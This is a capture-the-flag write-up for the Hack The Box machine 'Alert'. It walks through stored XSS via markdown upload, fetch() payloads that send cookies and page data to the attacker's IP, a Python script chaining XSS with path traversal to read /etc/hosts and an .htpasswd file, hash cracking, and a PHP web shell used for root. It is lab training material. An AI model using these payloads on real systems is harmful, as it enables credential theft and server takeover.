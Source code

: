 ```yaml
---
date: 2025-03-23
categories: [Linux, Easy]
---
```


![Alert](https://labs.hackthebox.com/storage/avatars/6f4647030d6aadc676b8d8a459de344f.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [FisMatHack](https://app.hackthebox.com/users/1076236)        | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Linux   |

---







- The first step is to perform a scan of the open ports and then list the versions and technologies used on the open ports.
	
	```python
	nmap -p- --open --min-rate 5000 -Pn -sS 10.10.11.44 -oG scan
	/opt/extractports scan
	nmap -p22,80 -sCV -Pn 10.10.11.44 -oN ports
	```
	
	![image](https://github.com/user-attachments/assets/dab10fa7-e3ee-40fa-8dbb-f4f2ffb822f6)

- I found the domain `alert.htb` and I add it to the file in the `hosts` file.
- When I enter the website I find several sections. Inside about us we see a description that makes us think that we can send a message to the administrator and it will be executed automatically.

	![image](https://github.com/user-attachments/assets/9bd8c59e-101b-4618-a042-7823c1a381bb)

- In the contact us section we can validate if this previous thought is correct. We set up a web server with python and send in the message content a reference to our server. We observe that we get the request that we have defined.

	```python
	test <script src=http://10.10.14.11:8000/pepe></script>
	```

	![image](https://github.com/user-attachments/assets/2264e40a-2c0e-48bb-9a08-5c92262bc45b)

- At this point I try to get the session cookie from the administrator. I send him within the comments a request against my server containing in the url his cookie, but when I get the request I notice that he doesn't have it.

	```python
	<script src="http://10.10.14.11/script.js"></script>
	# and script.js contains
	fetch('http://10.10.14.11/from_script/' + document.cookie);
	```

- I notice that when switching between pages only one parameter of the url changes so I decide to apply brute force to try to find new endpoints.

	```python
	wfuzz -c --hw 52 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://alert.htb/index.php?page=FUZZ" 
	```

	![image](https://github.com/user-attachments/assets/a4795d3f-071c-4a26-8d07-646b7c7fb1ac)

- I find the endpoint “messages” but it does not show anything.
- I try to find subdomains and I manage to find one. When accessing it asks for credentials but I don't have any at the moment.

	```python
	ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u 'http://alert.htb'  -H 'Host: FUZZ.alert.htb'
	```

	![image](https://github.com/user-attachments/assets/d9bc9221-85e9-47c8-8a03-6cc8a4ed44fb)

- Going back to the alert.htb endpoints, I have the main one that allows to upload “.md” file. Once uploaded it allows me to observe its content. I decide to validate if it is vulnerable to XSS injections by uploading a simple file with an alert and I verify that it is.

	```python
	pepe
	<img src=x onerror=alert(1) />
	```

	![image](https://github.com/user-attachments/assets/8fbe51f5-ec16-48bd-a94e-26dd6091c3b5)

- Combining the different findings I try to read the content of the page I found earlier, “messages”. For it I create a file that I am going to upload in the part of “Markdown viewer” with extension .md that makes a request to section of messages and that later forwards the obtained answer to my server.
- To avoid problems, I convert the content of the request to base64.

	```python
	 <script>
	fetch("http://alert.htb/index.php?page=messages")
		.then(response => response.text())
		.then(data => {
			fetch("http://10.10.14.11/test=" + btoa(data));
			})
		 
	</script>
	```

- When I upload it, it generates a link with which I can access my file. I pass this link through the contact us section to the administrator so that he can access it.
	
	```python
	asdf <script src=http://alert.htb/visualizer.php?link_share=67dfdf2836c0f2.84080614.md></script>
	```

- I receive the request in base64. When I convert it I can see that the administrator can see a different content than the one in the attached messages.

	![image](https://github.com/user-attachments/assets/456e3afc-fe59-4669-a0fa-6ec6bdd9ea4b)

- I decide to create a python script to automate this process and try to read that file that I could not see at first.
- Changing the first script so that it stops pointing to the messages section and now points to the file I can see its content but it is empty.
- I decide to try to make a request to view internal system files (LFI) using a directory path traversal and I manage to read internal files.

	```python
	import os
	import sys
	import re
	import requests
	
	target_url = "http://alert.htb/messages.php?file=../../../../../../../../../../../../etc/hosts"  
	
	url_upload = "http://alert.htb:80/visualizer.php"
	headers_upload = {
		"Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryXs1NS5MBWtbasWXg"
	}
	data_upload = "------WebKitFormBoundaryXs1NS5MBWtbasWXg\r\nContent-Disposition: form-data; name=\"file\"; filename=\"message.md\"\r\nContent-Type: text/markdown\r\n\r\n<script>\nfetch('"+target_url+"')\n.then(response => response.text())\n.then(data => {\n fetch(\"http://10.10.14.11/data=\" + btoa(data));\n})\n</script>\n\r\n------WebKitFormBoundaryXs1NS5MBWtbasWXg--\r\n"
	response_upload = requests.post(url_upload, headers=headers_upload, data=data_upload)
	
	urls = re.findall(r'http://[^\s"]+', response_upload.text)
	
	
	if (urls):
		print(urls[-1])
	else:
		exit(1)
	
	url_contact = "http://alert.htb:80/contact.php"
	headers_contact = {
	"Cache-Control": "max-age=0", "Origin": "http://alert.htb", "Content-Type": "application/x-www-form-urlencoded", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8", "Sec-GPC": "1", "Accept-Language": "en-US,en;q=0.6", "Referer": "http://alert.htb/index.php?page=contact", "Accept-Encoding": "gzip, deflate, br", "Connection": "keep-alive"}
	data_contact = {"email": "a@a.com", "message": "test test <script src="+urls[-1]+"></script>"}
	response_contact = requests.post(url_contact,headers=headers_contact, data=data_contact)
	```

	![image](https://github.com/user-attachments/assets/cfba432c-d9fe-4179-8008-820fa2c229ff)

- By trying different paths I manage to find a file that apparently belongs to the other subdomain we had previously found and contains a credential of the user alber. 

	```python
	http://alert.htb/messages.php?file=../../../../../../../../../../../var/www/statistics.alert.htb/.htpasswd
	```
	
	![image](https://github.com/user-attachments/assets/94ef0782-f1e5-4f89-b2d5-e0977b2f7c31)

- I use hashcat and manage to find the user's password.

	```python
	hashcat -m 1600 -a 0 hash2.txt /usr/share/wordlists/rockyou.txt
	```

- With these credentials and using ssh I can connect to the system and I can read the first flag.
- Once inside the system I list the ports that are in use and I notice that 8080 is being used.

	![image](https://github.com/user-attachments/assets/db691c5a-d488-4338-9bc1-f321bf1b6c87)
	
	![image](https://github.com/user-attachments/assets/d8f67495-97b1-4a00-8ad7-f561baa607d5)

	
- I share the port using chisel to my machine to be able to access this new web. I can't find anything relevant.
- The directory where the files of this web page are located has full permissions for all users. 

	![image](https://github.com/user-attachments/assets/6cdde485-ed8b-4a8f-af1b-c955b6620853)

- I create a file that allows me to execute commands as the user that is running the server (root), and thanks to this I can read the system's senguda flag.

```python
<?php system($_GET['cmd']);?>
```

```python
curl --path-as-is 'http://localhost:8080/monitors/a.php?cmd=cat%20/root/root.txt'
```
